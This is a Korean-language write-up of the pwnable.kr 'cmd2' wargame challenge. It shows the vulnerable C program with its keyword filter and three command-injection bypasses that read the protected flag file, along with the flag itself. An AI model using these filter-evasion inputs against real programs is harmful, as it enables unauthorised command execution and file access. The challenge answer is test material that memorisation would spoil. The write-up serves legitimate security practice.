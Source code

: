 # 문제
Daddy bought me a system command shell.
but he put some filters to prevent me from playing with it without his permission...
but I wanna play anytime I want!

ssh cmd2@pwnable.kr -p2222 (pw:flag of cmd1)

---
# 개요
```
cmd2@ubuntu:~$ ls
cmd2  cmd2.c  flag
cmd2@ubuntu:~$ cat cmd2.c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```
기존의 cmd1에서 사용했던 방법이 전부 통하지 않는 것을 알 수 있습니다. 하지만 와일드 카드는 이용할 수 있는 것을 알 수 있습니다. system() 함수를 사용하므로 명령을 실행할때 sh를 사용할 것입니다. man page를 읽으며 도움이 될만한 지식을 찾던 중 다음과 같은 글을 발견했습니다.
```
command [-pVv] command [arg ...]
 Run command with args suppressing the normal shell function
 lookup. Only builtin commands or commands found in the PATH are
 executed. If the -p option is given, the search for command is
 performed using a default value for PATH that is guaranteed to
 find all of the standard utilities. If either the -V or -v
 option is supplied, a description of command is printed. The -v
 option causes a single word indicating the command or file name
 used to invoke command to be displayed; the -V option produces a
 more verbose description. If the -V or -v option is supplied,
 the exit status is 0 if command was found, and 1 if not. If
 neither option is supplied and an error occurred or command
 cannot be found, the exit status is 127. Otherwise, the exit
 status of the command builtin is the exit status of command.
```
이를 바탕으로 -p 옵션과 command를 사용하여 다음과 같이 exploit code 구현이 가능합니다.
```
cmd2@ubuntu:~$ ./cmd2 "command -p cat fla*"
command -p cat fla*
FuN_w1th_5h3ll_v4riabl3s_haha
```
다른 풀이 방법을 검색한 결과 8진수를 이용하여 슬래시(/)를 우회하는 방법이 존재했습니다.
```
cmd2@ubuntu:~$ ./cmd2 '$(echo "\57")bin$(echo "\57")cat fla*'
$(echo "\57")bin$(echo "\57")cat fla*
FuN_w1th_5h3ll_v4riabl3s_haha
```
또한 read를 이용하는 방법도 있습니다.
```
cmd2@ubuntu:~$ ./cmd2 "read deadbeef;\$deadbeef"
read deadbeef;$deadbeef
/bin/cat flag
FuN_w1th_5h3ll_v4riabl3s_haha
```
